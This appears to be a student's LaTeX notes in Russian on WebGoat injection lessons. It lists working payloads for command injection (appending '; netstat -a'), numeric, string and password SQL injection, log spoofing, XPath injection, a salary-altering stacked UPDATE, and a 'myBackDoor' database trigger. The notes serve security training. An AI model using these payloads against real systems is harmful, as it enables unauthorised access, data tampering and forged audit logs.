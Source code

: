 \documentclass[10pt,a4paper]{article}
\begin{document}
\paragraph{Недостатки приводящие к осуществлению инъекций}
\begin{enumerate}
\item Command injection
Перехватываем запрос, добавляем к имени файла строку:
\begin{verbatim}
%22%3B%20netstat%20-a
\end{verbatim}
\item Numeric SQL injection
Перехватываем запрос. Меняем:
\begin{verbatim}
station=101or%201%3D1&SUBMIT=Go!
\end{verbatim}
\item Log spoofing
Перехватываем запрос, меняем имя на следующее:
\begin{verbatim}
somename
Admin succefully entered!
\end{verbatim}
В результате, в логе создается видимость того, что админ авторизоавлся.
\item XPath Injection 
К имени добавляем:
\begin{verbatim}
' or 1=1 or 'a'='a
\end{verbatim}
\item SQL Injection
Перехватываем сообщение. В качестве пароля пишем:
\begin{verbatim}
azaza%27%20OR%20%271%27%3D%271
\end{verbatim}
При попытке получить данные на втором шаге получаем :
\begin{verbatim}
THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT
\end{verbatim}
\item String sql injection
Аналогично. Вместо имени вводим azaza' OR 'a' = 'a. Получаем все возможные значения.
\item Modify Data with SQL INJECTION
Вместо имени вводим:
\begin{verbatim}
azaza'; UPDATE salaries SET salary=1000000 WHERE userid='jsmith
\end{verbatim}
Получаем на счету миллион.
\item Database backdoors
Также можно добавлять и триггеры:
\begin{verbatim}
101; CREATE TRIGGER myBackDoor BEFORE INSERT ON employee FOR EACH ROW BEGIN UPDATE employee SET email='john@hackme.com' WHERE userid = NEW.userid
\end{verbatim}
\end{enumerate}
\end{document}
